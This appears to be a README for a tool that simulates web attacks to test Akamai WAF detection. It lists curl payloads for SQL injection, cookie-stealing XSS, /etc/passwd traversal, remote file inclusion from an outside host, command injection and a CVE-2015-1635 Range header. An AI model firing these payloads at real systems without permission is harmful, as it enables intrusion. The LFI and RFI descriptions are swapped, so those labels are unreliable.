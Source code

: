 # Akamai Bot Attacker

## 0x01. How It Works

- Send request with python `requests`.

## 0x02. Python Libs

- requests

## 0x03. How To Use

1. create an alias in shell rc/profile:

    ``` bash
    alias akattack="python3 ${AK_TOOLS_HOME}/05_bot_attacker/python/bot_attacker.py"
    ```

2. Reopen the terminal.
3. Using following command to run the script.

    ``` bash
    akattack
    ```

## 0x04. Attack Type

### 1. Web Attack Tool

Identifies common application-level attack tools including vulnerability scanning, exploit tools and DoS programs like Pandora, Drive, LOIC, and Hulk.

Sample Attack Simulation:
This is an example request with a User-Agent string value of a well-known open source web application vulnerability scanner. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` shell
curl -D - -s "http://${HOSTNAME}/" --user-agent "w3af.sourceforge.net"
```

### 2. Web Protocal Attack

Identifies errors and anomalies related to the HTTP protocol including request body parsing errors and RFC violations like required request headers that are missing.

Sample Attack Simulation:
This is an example request where the Content-Type header specifies the request body content is “xml”, but doesn’t pass the data in XML format. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` shell
curl -D - -s "http://${HOSTNAME}/" --header "Content-Type: application/xml" --data "not_xml_format"
```

### 3. SQL Injection

Identifies database attack payloads, including those used during the initial reconnaissance phase of an attack session to enumerate database details, as well as data exfiltration attempts and timing-based enumerations. The group evaluates incoming payloads using a library of attack fingerprints that our security research team updates continuously.

### 4. Sample Attack Simulation

This is an example SQLi attack that attempts to enumerate the database version in use. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` shell
curl -D - -s "http://${HOSTNAME}/?fakeparam=-1%20UNION%20ALL%20SELECT%20%40%40version%2C2%2C3--"
```

### 5. Cross-Site Scripting

Blocks proof-of-concept attacks that attempt to identify exploit vectors, JavaScript event handler invocations, and attempts to access sensitive DOM objects.

Sample Attack Simulation:
This is an example XSS attack that attempts to trigger the JavaScript prompt function and display the current user’s cookie information. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` shell
curl -D - -s "http://${HOSTNAME}/?fakeparam=data%22%3E%3Cscript%3Eprompt%28document.cookie%29%3C%2Fscript%3E"
```

### 6. Local File Inclusion

``` shell
curl -D - -s "http://${HOSTNAME}/?fakeparam=.././.././../etc/passwd"
```

### 7. Remote File Inclusion

Identifies attacks including directory traversals, as well as attempts to access sensitive application configuration and operating system files.

Sample Attack Simulation:
This is an example LFI attack that attempts to directory traversal to access the operating system’s password file. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` shell
curl -D - -s "http://${HOSTNAME}/?fakeparam=http://cirt.net/rfiinc.txt"
```

### 8. Command Injection

Identifies attempts to access and execute application-level and operating system commands including PHP code injection and web shell/backdoor upload attempts.

Sample Attack Simulation:
This is an example CMDi attack that attempts to use the “whoami” operating system command to identify which user the web server application is running as. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` shell
curl -D - -s "http://${HOSTNAME}/?fakeparam=something;/bin/whoami"
```

### 9. Web Platform Attack

Identifies attacks against the software platforms (including cloud, web and application-layers) that are not categorized in other attack groups.

Sample Attack Simulation:
This is an example request that specifies a Range request header payload similar to CVE-2015-1635. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` shell
curl -D - -s "http://${HOSTNAME}/" --header "Range: 18446744073709551615"
```

